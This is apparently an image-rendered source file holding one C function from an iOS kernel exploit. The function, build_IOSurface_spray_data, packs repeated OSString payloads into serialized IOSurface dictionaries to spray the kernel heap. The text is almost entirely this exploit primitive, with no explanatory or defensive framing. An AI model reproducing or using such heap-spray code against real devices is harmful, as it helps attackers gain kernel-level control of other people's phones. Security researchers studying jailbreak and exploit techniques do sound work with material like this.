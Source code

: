 ```cpp
//iosurface.c
int build_IOSurface_spray_data(void *data, size_t size, int spray_qty, uint32_t *spray_data, int spray_size) {
    /* set up our IOSurface data for spraying */
    bzero((void *)spray_data, spray_size);
    
    uint32_t *spray_cur = spray_data;
    
   /*
        +-> Surface
          +-> Array
            +-> Dictionary
              +-> OSString 
              +-> OSString
              +-> OSString 
                etc (spray_qty times)...
   */

    *(spray_cur++) = IOSurface_id;
    *(spray_cur++) = 0x0;
    *(spray_cur++) = kOSSerializeMagic;
    *(spray_cur++) = kOSSerializeEndCollection | kOSSerializeArray | 1;
    *(spray_cur++) = kOSSerializeEndCollection | kOSSerializeDictionary | spray_qty;
    for (int i = 0; i < spray_qty; i++)
    {
        *(spray_cur++) = kOSSerializeSymbol | 5;
        *(spray_cur++) = transpose(i);
        *(spray_cur++) = 0x0;
        *(spray_cur++) = (i + 1 >= spray_qty ? kOSSerializeEndCollection : 0) | kOSSerializeString | (pagesize - 1);
        
        for (uintptr_t ptr = (uintptr_t)spray_cur, end = ptr + pagesize; 
             ptr + size <= end; 
             ptr += size)
        {
            bcopy((const void *)data, (void *)ptr, size);
        }
        
        spray_cur += (pagesize / sizeof(uint32_t));
    }

    return 0;
}
```
